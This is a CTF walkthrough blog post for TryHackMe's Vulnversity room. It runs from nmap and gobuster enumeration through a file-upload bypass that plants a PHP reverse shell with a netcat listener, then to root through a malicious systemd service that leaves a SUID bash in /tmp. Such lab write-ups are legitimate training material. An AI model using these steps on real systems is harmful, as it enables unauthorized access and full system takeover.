





🛡️ Vulnversity – TryHackMe CTF Walkthrough
This write-up covers my walkthrough of the Vulnversity CTF room on TryHackMe, aimed at building foundational skills in web exploitation. Although this CTF is beginner-friendly, it provides an excellent foundation for those new to web exploitation. It walks you through the basics using essential tools and offers an enjoyable, hands-on experience that can be completed in about an hour.
⚠️ Disclaimer: SPOILER ALERT!
1️⃣ Nmap – Initial Enumeration
Once you've deployed the target machine, you're ready to begin. Naturally, the first step is running an Nmap scan. While many CTF rooms tend to skip over this part or assume you already know it, I really appreciated that this one actually emphasizes it. As we all know, Nmap is absolutely vital for reconnaissance—and this room makes that clear from the start.
nmap -sC -sV -p- 10.10.X.X -oN nmap_tcp_full.txt2️⃣ Gobuster – Web Content Discovery
The next step is directory enumeration using Gobuster. Since this is a web exploitation room, we obviously need a directory we can actually exploit.😆 We take the IP address of the target machine and combine it with the web server port we discovered during the Nmap scan to launch a brute-force attack on potential directories. PS: The CTF uses Gobuster in the walkthrough, but tools like Dirb or ffuf would also get the job done—pick your weapon of choice.
gobuster dir -u http://10.10.X.X:3333 -w /usr/share/wordlists/dirb/common.txt -o gobuster.txt3️⃣ BurpSuite – File‑Upload Bypass
Now that we’ve identified the target directory, it’s time to bring everything together and navigate to the address. Once loaded, we’re greeted with a file upload page—and that’s where things start to get interesting. Using Burp Suite, we perform a brute-force attack to enumerate which file extensions are allowed. Pro tip: If you’re not familiar with Burp, you might want to pause and get comfortable with it first—this room assumes you already know how to use it.
4️⃣ Reverse Shell – www‑data Access
With the allowed extensions now discovered, the next step is gaining access via a reverse shell. This is where things start to get a bit more advanced. Think of the web server as a castle—and the upload directory we found earlier as its front gate. But this gate has guards: it doesn’t let just any file through. To get past them, our file needs to be in a format they recognize—in this case, .phtml. We took PentestMonkey’s PHP reverse shell, modified it by inserting our USERNAME0 IP address, and uploaded it as php-reverse-shell.phtml. Once we triggered the file, we successfully received a shell as www-data.
# listener
nc -lvnp 4444
# reverse shell URL (trigger)
http://10.10.X.X:3333/internal/uploads/php-reverse-shell.phtml5️⃣ Privilege Escalation – Root via SUID systemctl
And now… the finale. We’ve snuck into the castle—but there’s a catch. The identity we assumed is that of a lowly peasant. Our mission? Take the throne. Become root. Here's how we pulled it off: A SUID bit set on /bin/systemctl gave us the ability to create and launch our own malicious service as root. Using that, we dropped a root-owned SUID bash binary into /tmp:
# Create malicious service
cat <<'EOF' > /tmp/rootme.service
[Service]
Type=oneshot
ExecStart=/bin/bash -c "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash"
[Install]
WantedBy=multi-user.target
EOF
/bin/systemctl link /tmp/rootme.service
/bin/systemctl enable rootme.service
/bin/systemctl start rootme.service
# Pop root shell
/tmp/rootbash -pAnd just like that — root access achieved. A quick cat /root/root.txt and the final flag was ours. 🏁